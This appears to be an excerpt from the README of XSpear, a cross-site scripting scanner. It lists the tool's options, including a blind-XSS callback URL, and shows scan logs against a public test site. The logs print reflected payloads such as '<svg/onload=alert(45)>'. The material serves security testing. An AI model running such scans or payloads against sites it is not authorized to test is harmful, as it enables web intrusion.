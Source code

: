 ```
    -p, --param=PARAM                [optional] Test paramters
    -b, --BLIND=URL                  [optional] Add vector of Blind XSS
                                      + with XSS Hunter, ezXSS, HBXSS, etc...
                                      + e.g : -b https://hahwul.xss.ht
    -t, --threads=NUMBER             [optional] thread , default: 10
    -o, --output=FORMAT              [optional] Output format (cli , json)
    -c, --config=FILENAME            [optional] Using config.json
    -v, --verbose=0~3                [optional] Show log depth
                                      + v=0 : quite mode(only result)
                                      + v=1 : show scanning status(default)
                                      + v=2 : show scanning logs
                                      + v=3 : show detail log(req/res)
    -h, --help                       Prints this help
        --version                    Show XSpear version
        --update                     Show how to update


```
### Result types
- (I)NFO: Get information ( e.g sql error , filterd rule, reflected params, etc..)
- (V)UNL: Vulnerable XSS, Checked alert/prompt/confirm with Selenium
- (L)OW: Low level issue
- (M)EDIUM: medium level issue
- (H)IGH: high level issue

### Verbose Mode
**[0] quite mode(show only result)**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 0
you see report
```
**[1] show progress bar (default)**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
[*] analysis request..
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]

[#######################################] [249/249] [100.00%] [01:05] [00:00] [  3.83/s]
...
you see report
```
**[2] show scanning logs**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 2
[*] analysis request..
[I] [22:42:41] [200/OK] [param: cat][Found SQL Error Pattern]
[-] [22:42:41] [200/OK] 'STATIC' not reflected
[-] [22:42:41] [200/OK] 'cat' not reflected <script>alert(45)</script>
[I] [22:42:41] [200/OK] reflected rEfe6[param: cat][reflected parameter]
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]
[I] [22:42:43] [200/OK] reflected onhwul=64[param: cat][reflected EHon{any} pattern]
[-] [22:42:54] [200/OK] 'cat' not reflected <img/src onerror=alert(45)>
[-] [22:42:54] [200/OK] 'cat' not reflected <svg/onload=alert(45)>
[H] [22:42:54] [200/OK] reflected <script>alert(45)</script>[param: cat][reflected XSS Code]
[V] [22:42:59] [200/OK] found alert/prompt/confirm (45) in selenium!! '"><svg/onload=alert(45)>[param: cat][triggered <svg/onload=alert(45)>]
...
```